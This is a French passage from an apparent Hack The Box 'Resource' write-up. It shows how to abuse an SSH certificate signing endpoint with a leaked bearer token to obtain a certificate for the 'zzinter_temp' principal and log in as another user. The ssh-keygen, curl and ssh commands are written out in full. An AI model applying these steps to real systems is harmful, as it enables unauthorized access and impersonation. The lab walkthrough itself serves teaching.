 Nous allons répéter le même processus et nous connecter en tant que `zzinter` sur le nouvel hôte. Le problème ici est que nous ne pouvons pas générer un certificat signé en utilisant le script parce que `zzinter` n'est pas un principal supporté. 

En examinant à nouveau le script, nous voyons qu'il utilise `curl` pour récupérer le certificat SSH, la requête nécessite trois informations: une clé publique, un nom d'utilisateur, et un ou plusieurs utilisateur(s). Actuellement, nous n'avons pas de nom d'utilisateur valide.

```
curl -s signserv.ssg.htb/v1/sign -d '{"pubkey": "'"$public_key"'", "username": "'"$username"'", "principals": "'"$principal"'"}' -H "Content-Type: application/json" -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE"
```

Le contenu de `/etc/ssh/sshd_config.d/sshcerts.conf` nous montre qu'un fichier situé dans `/etc/ssh/auth_principals` est utilisé par SSH sur cet hôte. En vérifiant le fichier, nous trouvons que `zzinter_temp` est un nom valide pour `zzinter`.

![SSH principal file](/images/HTB-Resource/principal_file.png)

![zzinter valid principal name](/images/HTB-Resource/zzinter_temp.png)

Avec tous les éléments nécessaires, nous pouvons maintenant répéter le processus utilisé précédemment.

1. Générer une clé SSH pour zzinter.

```
ssh-keygen -t rsa -b 4096 -f id_rsa_zzinter
```

2. Pour obtenir notre certificat signé, nous envoyons une requête avec curl.

```
curl signserv.ssg.htb/v1/sign -d '{"pubkey": "YOUR_GENERATED_PUBLIC_KEY", "username": "zzinter", "principals": "zzinter_temp"}' -H "Content-Type: application/json" -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE"
```

* Stocker le certificat dans un fichier.

```
echo "YOUR_SSH_CERTIFICATE" > id_rsa_zzinter-cert.pub
```

3. Modifier les permissions des clés.

```
chmod 600 id_rsa_zzinter
chmod 600 id_rsa_zzinter-cert.pub
```

4. Connectez-vous en tant que `zzinter` sur le nouvel hôte.

```
ssh -i id_rsa_zzinter -p 2222 zzinter@172.223.0.1
```

![zzinter ssh login on ssg host](/images/HTB-Resource/zzinter_ssh_ssg_host.png)
